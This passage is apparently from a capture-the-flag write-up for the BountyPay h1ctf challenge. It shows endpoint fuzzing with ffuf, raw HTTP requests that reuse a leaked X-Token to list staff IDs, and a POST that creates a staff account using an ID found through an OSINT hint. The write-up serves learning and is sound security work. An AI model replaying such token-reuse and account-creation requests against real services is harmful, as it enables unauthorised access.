 So I did it...but what's next??
=====================
I had no idea, once again...but well, I had a token and tokens are supposed to be used somewhere.
Do you remember those subdomains that I found with zdns? 
One of them was a REST API, `https://api.bountypay.h1ctf.com/`.
I started fuzzing for endpoints using ffuf and I came across `/api/staff`.
I tried to send a POST request to it, using the token as value of the `X-Token` header:
```http
GET /api/staff HTTP/1.1
Host: api.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
X-Token: 8e9998ee3137ca9ade8f372739f062c1
Cache-Control: max-age=0
```
Got this as response:
```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 30 May 2020 20:50:30 GMT
Content-Type: application/json
Connection: close
Content-Length: 104

[{"name":"Sam Jenkins","staff_id":"STF:84DJKEIP38"},{"name":"Brian Oliver","staff_id":"STF:KE624RQ2T9"}]
```
Cool, we had a few staff ids...now what?

The Hint
=====================

Luckily a hint from [Twitter](https://twitter.com/SandraA76708114/status/1258693001964068864) came handy: 
{F852391}
I believe there were other methods to get that ID but I guess CTFs can be solved in different ways...this was the OSINT way, if you like it :)
Then I tried to send this request, after a few failed attempts:
```http
POST /api/staff HTTP/1.1
Host: api.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-Token: 8e9998ee3137ca9ade8f372739f062c1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

staff_id=STF:8FJ3KFISL3
```
...and got this JSON response:
```http
HTTP/1.1 201 Created
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 02 Jun 2020 12:08:04 GMT
Content-Type: application/json
Connection: close
Content-Length: 110

```